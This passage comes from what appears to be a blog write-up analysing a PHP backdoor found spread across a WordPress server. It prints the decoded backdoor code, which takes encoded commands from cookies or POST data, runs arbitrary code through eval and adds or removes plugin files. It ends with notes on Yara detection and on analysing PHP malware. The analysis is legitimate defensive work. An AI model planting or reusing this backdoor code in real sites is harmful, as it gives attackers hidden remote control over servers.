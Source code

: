 Decoding the last part of the malware using vaiable name substitution gave me:

```php
foreach (array_merge($_COOKIE, $_POST) as $parameters => $param)
{
    $param = @unserialize(xortype1(b64de($param), $parameters));

    if (isset($param['ak']) && $stringa==$param['ak'])
    {
        if ($param['a'] == 'i')
        {
            $fxffhl = Array(
                'pv' => @phpversion(),
                'sv' => '2.0-1',
                'ak' => $param['ak'],
            );
            echo @serialize($fxffhl);
            exit;
        }
        elseif ($param['a'] == 'e')
        {
            eval($param['d']);
        }
        elseif ($param['a'] == 'plugin')
        {
            if($param['sa'] == 'add')
            {
                bushzx($param['p'], $param['d']);
            }
            elseif($param['sa'] == 'rem')
            {
                uzzylcyq($param['p']);
            }
        }
        echo $param['ak'];
        exit();
    }
}

```

# Conclusion

The malware appears to be a backdoor and it was spread liberally around the wordpress server. As mentioned in the stackoverflow link, Yara rules can detect the obfuscated malware.

Malware analysis in PHP is straight forward, but does require patience. Evals can be swapped out for echos, and (although not used for this), PHP has a debugger (xdebug). In future, I may make a post about this debugger.
